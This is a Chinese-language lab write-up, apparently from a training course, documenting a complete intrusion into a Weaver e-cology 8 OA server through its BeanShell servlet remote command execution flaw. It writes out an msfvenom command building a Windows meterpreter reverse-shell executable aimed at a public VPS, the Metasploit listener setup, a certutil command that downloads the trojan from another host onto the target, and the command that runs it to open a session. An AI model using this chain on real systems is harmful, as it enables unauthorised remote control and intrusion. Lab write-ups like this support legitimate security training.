> 三七记于2022年10月12日16:07:10
>
> 流程: 生成木马,开启监听 \=\=>上传木马到192.168.5.118的网站目录下\=\=>192.168.5.123下载木马并执行

## 访问泛微协同商务系统

浏览器访问网址: `http://192.168.5.123/login/Login.jsp?logintype=1`

>  使用的浏览器代理: `socks5://120.78.76.236:2022`
>
> 访问的浏览器: `firefox`

画面:

## 查找e-cology8的漏洞

> 远程命令执行漏洞介绍[地址]([(15条消息) 泛微OA E-cology（CNVD-2019-32204）远程命令执行漏洞复现分析_洋洋cc的博客-CSDN博客_泛微oa漏洞复现](https://blog.csdn.net/weixin_45382656/article/details/118565142)):`https://blog.csdn.net/weixin_45382656/article/details/118565142`

存在问题的页面的URL:`http://192.168.5.123/weaver/bsh.servlet.BshServlet/`, 访问情况如下(已使用):



**测试**

1. 在script中输入`exec("whoami");`
2. 点击`evaluate`执行
3. 返回当前用户,效果如图
4. 可以更换成其他命令



## VPS生成木马

登录vps:

> lsb_release 查看发行版本

使用命令生成木马;`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=120.78.76.236 LPORT=12363 -a x64 -f exe > 12363.exe`

> LHOST输入的是vps的公网ip
>
> LPORT是要监听的端口
>
> 曾因为将LPORT打成LPOST,多次生成无效的木马
>
> `msfvenom -p windows/x64/meterpreter/reverse_tcp --platform Windows LHOST=120.78.76.236 LPOST=12362  -a x64 -f exe > 12362.exe`
>
> 修正后应该可以使用,但没有测试

反馈结果:

## vps开启监听

1. 进入msf,使用命令`msfconsole;`
2. 输入命令`handler -p windows/x64/meterpreter/reverse_tcp -H 172.24.243.233 -P 12363`

> -H 是自己的内网ip
>
> -p 与生成木马时的端口对应

3. 反馈结果

> 你可以使用jobs查看进程
>
> 
>
> 你可以使用`jobs -k {id}`来关闭某个进程,如此时可以用`jobs -k 1`来关闭监听

## 将木马上传到靶机118

**首先**,将生成的木马下载到本地

* 使用命令`sz 12363.exe`
* 展示:
* 完成后:

第二步, 在自己的虚拟机上测试, 如果认为自己的配置没有问题, 可以跳过这一步.

* 展示：

  > 你可以在任务管理器中关闭12363.exe

* 在vps上有显示信息



> 注意要开监听且端口对应

* 使用`sessions `查看会话

* 使用`sessions -k 1`关闭会话

> 1 为sessions的ID

第三步, 将木马12363.EXE 上传到靶机192.168.5.118上.

* 192.168.5.118的公网地址为117.167.136.240
* 端口映射 192.168.5.118:80 => 117.167.137.240:55580
* 使用蚁剑上传到web服务器网站根目录(也可以是其他路径, 要求可以通过web服务下载).
* 不展示过程, 结果:

* 访问http://192.168.5.118/12363.exe测试能否下载

## 下载并运行木马

在`http://192.168.5.123/weaver/bsh.servlet.BshServlet/`界面script中更换exec()中的`whoami`为`certutil -urlcache -split -f http://192.168.5.118:80/12359.exe`, 点击运行

结果:



将命令换成`cmd /c dir`查看是否下载成功, 如图:





使用命令`cmd /c 12363.exe`执行木马.

* 页面会一直处于加载中

* script中的内容:
* vps中上线了一个新会话:

* 使用sessions查看会话,可以看到192.168.5.123

--------------

至此, 课程回归结束